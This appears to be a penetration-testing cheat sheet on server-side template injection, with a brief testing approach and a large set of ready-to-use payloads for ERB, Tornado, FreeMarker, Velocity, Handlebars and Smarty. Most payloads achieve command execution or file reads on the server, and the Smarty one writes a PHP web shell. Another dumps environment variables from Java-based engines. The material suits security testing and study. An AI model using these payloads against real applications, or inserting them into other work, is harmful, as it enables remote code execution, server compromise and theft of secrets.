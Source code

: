 # Server-Side Template Injection {SSTI}

# Overview

# Testing for Server-Side Template Injection

## Approach

+ Fuzz URL paramters with template syntax
+ Where page edditing which returns somewhere on the web application is possible fuzz those inputs
+ Attempt to induce template related errors which reveal the template engine in use
+ Craft a exploit specific to the templating engine

## Typical Examples of Injectable Areas

### URL Paramters

`domain.net/message?=close_template_tag}}insert_paylaod`

`domain.net/message?=close_template_tag%>insert_paylaod`

### Page Editors

```
<p>Add ur html yay</p>

<p>{{paylaod}}</p>

```

## Identification Polyglots

`${{<%[%'"}}%\`

# Payloads By Template Engine

## ERB 

### Tag Syntax

`<%= %>`

### Identification Payloads

`<%= 7*7 %>`

### General Payloads

`<%= system("cat /path/to/file") %>`

`<%= Dir.entries('/') %>`

`<%= File.open('/example/arbitrary-file').read %>`

## Tornado

### Tag Syntax

`{{ }}`

### Identification Payloads

`{{7*7}}`

### General Payload

`{% import os %}{{ os.popen("cat /path/to/file").read() }}`

## FreeMarker

### Tag Syntax

`${ }`

### Identification Payloads

`${7*7}`

### General Payload

`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /path/to/file") }`

## Velocity

### Tag Syntax

`$class`

### Identification Payloads

```
#set( $a = "Velocity" )
$foo
```

### General Payload

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("cat /path/to/file"))$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```

## Handlebars

### Tag Syntax

`{{ }}`

### General Payload

```
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('cat /path/to/file');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Smarty

### Tag Syntax

### Gneral Payload

`{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cat /path/to/file']); ?>",self::clearConfig())}`

# Dumping Template Objects

+ It may not always be possible to escalate a SSTI vulnrability to gain RCE
+ However where template injection is possible there is still a high potential for sensitive data exposure and vulnrability chaining
+ One way to develop a meaningful exploit from a SSTI is to use the native templating languages environment variables to dump all the objects used in the context including custom developer ones

## JAVA Based Engines

`${T(java.lang.System).getenv()}`

# Resources

+ [ERB Syntax](https://www.stuartellis.name/articles/erb/)
+ [Server-Side template injection in tornado](https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/)
+ [ERB Template-Injection](https://www.trustedsec.com/blog/rubyerb-template-injection/)
+ [Black Hat Server-Side Template Injection](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)